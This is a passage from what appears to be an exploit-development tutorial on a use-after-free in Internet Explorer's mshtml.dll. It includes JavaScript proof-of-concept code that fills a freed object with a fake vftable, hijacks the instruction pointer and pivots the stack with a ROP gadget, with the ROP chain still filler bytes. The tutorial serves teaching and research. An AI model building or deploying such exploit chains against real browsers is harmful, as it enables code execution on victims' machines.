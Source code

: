 ```js
      try {
        a = document.getElementById('anim');
        a.values = vftable;
      }
      catch (e) {};

  </script>
    <table>
      <tr>
        <div>
          <span>
            <q id='a'>
              <a>
                <td></td>
              </a>
            </q>
          </span>
        </div>
      </tr>
    </table>
ss
</html>
```

Let's (for now) leave WinDbg configured as our postmortem debugger, and see what happens. Running the POC, we can see that the crash ensues, and the instruction pointer is pointing to `41414141`.

<img src="{{ site.url }}{{ site.baseurl }}/images/browser30.png" alt="">

Great! We can see that we have gained control over EAX by making our virtual function point to a ROP gadget that exchanges EAX into ESP! Recall earlier what was said about our fake vftable. Right now, this table is only `0x70` bytes in size, because we know our vftable from earlier indexed a function from offset `0x70`. This doesn't mean, however, we are limited to `0x70` total bytes. The only limitation we have is how much memory we can allocate to fill the chunk. Remember, this vftable is pointed to by a DWORD, created from the HTML+TIME method to allocate 26 total DWORDS, for a total of `0x68` bytes, or 104 bytes in decimal, which is what we need in order to control the freed allocation.

Knowing this, let's add some "ROP" gadgets into our POC to outline this concept.

```js
// Create the fake vftable of 70 DWORDS (70 "functions")
vftable = "\u4141\u4141";

for (i=0; i < 0x70/4; i++)
{
// This is where execution will reach when the fake vtable is indexed, because the use-after-free vulnerability is the result of a virtaul function being fetched at [eax+0x70]
// which is now controlled by our own chunk
if (i == 0x70/4-1)
{
  vftable+= unescape("\ua1ea\u74c7");     // ﻿xchg eax, esp ; ret (74c7a1ea) (mshtml.dll) Get control of the stack
}
else
{
  vftable+= unescape("\u4141\u4141");
}
}

// Begin the ROP chain
rop = "\u4343\u4343";
rop += "\u4343\u4343";
rop += "\u4343\u4343";
rop += "\u4343\u4343";
rop += "\u4343\u4343";
```